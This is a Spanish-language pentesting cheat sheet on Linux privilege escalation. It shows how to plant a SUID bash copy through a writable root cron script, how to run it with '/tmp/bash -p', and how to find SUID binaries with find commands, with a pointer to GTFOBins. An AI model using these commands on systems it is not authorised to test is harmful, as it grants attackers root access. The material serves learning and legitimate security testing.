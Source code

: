 ### SECUESTRO DE LA BASH

si encontramos una tarea cron que ejecuta un script en bash, el cual tenemos permisos de escritura, podemos hacer lo siguiente:

como podemos escribir podemos agregar al comienzo la siguiente instruccion:

```bash
cp/bin/bash /tmp/bash; chmod +s /tmp/bash
```

se lo podria agregar desde consola:

```bash
echo 'cp/bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/usuario/sobrescribir.sh

echo 'cp/bin/bash /tmp/bash; chmod +s /tmp/bash' >> /home/usuario/sobrescribir.sh
```

siendo `/home/usuario/sobrescribir.sh` el script que ejecuta la tarea cron.

lo que hacemos es sacar una copia de la bash a la ruta **/tmp** donde se tiene permisos de ejecucion, y le damos el permiso SUID, si esta taera la ejecuta **root** se le otorgaria a esta copia de la bash para que se ejecute como root, caso contrario como el usuario que ejecuta la tarea.

despues podemos hacer.

```bash
/tmp/bash -p
```

y tendremos la bash como root.

## Permisos SUID

En GTFOBins puedes ver varias formas de aprovechar diferentes aplicativos si tuvieran permisos SUID.

[GTFOBins](https://gtfobins.github.io/)

Si se ejecuta un archivo con este bit, el propietario cambiará el uid. Si el propietario del archivo es root, el uid se cambiará rootincluso si fue ejecutado por el usuario bob. El bit SUID está representado por un s.

encontrar permisos SUID:

```bash
find / -uid 0 -perm -4000 -type f 2>/dev/null

find / -type f -perm -04000 -ls 2>/dev/null
```

puede que scripts personalizados tengan este permiso, por lo que ahi tocaria entender el script y ver la forma de aprovecharnos de él

### Variable de entorno

puede que al listar los binario SUID encuentre uno que le llame la atencion, utilizando `strings` podria ver mas informacion de lo que hace el binario (al ser un binario compilado si hacemos un cat nos muestra caracteres raros), por ejemplo a traves de strings podemos ver comandos que ejecuta el binario.
